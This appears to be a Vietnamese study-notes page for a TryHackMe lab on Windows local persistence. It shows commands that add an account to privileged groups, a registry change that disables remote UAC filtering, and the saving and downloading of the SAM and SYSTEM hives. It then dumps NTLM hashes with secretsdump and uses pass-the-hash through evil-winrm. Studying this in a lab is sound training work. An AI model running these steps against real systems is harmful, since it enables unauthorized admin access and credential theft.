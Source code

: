 ```yaml
---
template: overrides/blog.html
icon: material/plus-circle
title: Windows Local Persistence
description: >
  
search:
  exclude: true
hide:
  - feedback


tags:
  - THM-Room 
  - Red Teaming - Post Compromise
---
```


# __Windows Local Persistence__

---

## __Task 1: Introduction__

Sau khi có những bước đầu thâm nhập hệ thống cục bộ, bạn phải ghi nhớ:

- Re-exploitation isn't always possible
- Gaining a foothold is hard to reproduce
- The blue team is after you

## __Task 2: Tampering With Unprivileged Accounts__

### __Assign Group Memberships__

Cách trực tiếp để biến 1 người dùng bình thường không có đặc quyền có được quyền Admin là biến người dùng đó thành một phần của nhóm Admin. Dùng lệnh

```ps1
net localgroup administrators thmuser0 /add
```

```ps1
C:\> net localgroup "Backup Operators" thmuser1 /add
```

```ps1
C:\> net localgroup "Remote Management Users" thmuser1 /add
```

```ps1
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

```ps1 title="AttackBox"
user@AttackBox$ evil-winrm -i MACHINE_IP -u thmuser1 -p Password321
        
*Evil-WinRM* PS C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators             Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users      Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                 Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288
```

```ps1 title="AttackBox"
*Evil-WinRM* PS C:\> reg save hklm\system system.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> reg save hklm\sam sam.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> download system.bak
    Info: Download successful!

*Evil-WinRM* PS C:\> download sam.bak
    Info: Download successful!
```

```ps1 title="AttackBox"
user@AttackBox$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL

Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x41325422ca00e6552bb6508215d8b426
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1cea1d7e8899f69e89088c4cb4bbdaa3:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9657e898170eb98b25861ef9cafe5bd6:::
thmuser1:1011:aad3b435b51404eeaad3b435b51404ee:e41fd391af74400faa4ff75868c93cce:::
[*] Cleaning up...
```

```ps1 title="AttackBox"
user@AttackBox$ evil-winrm -i MACHINE_IP -u Administrator -H 1cea1d7e8899f69e89088c4cb4bbdaa3
```

### __Special Privileges and Security Descriptors__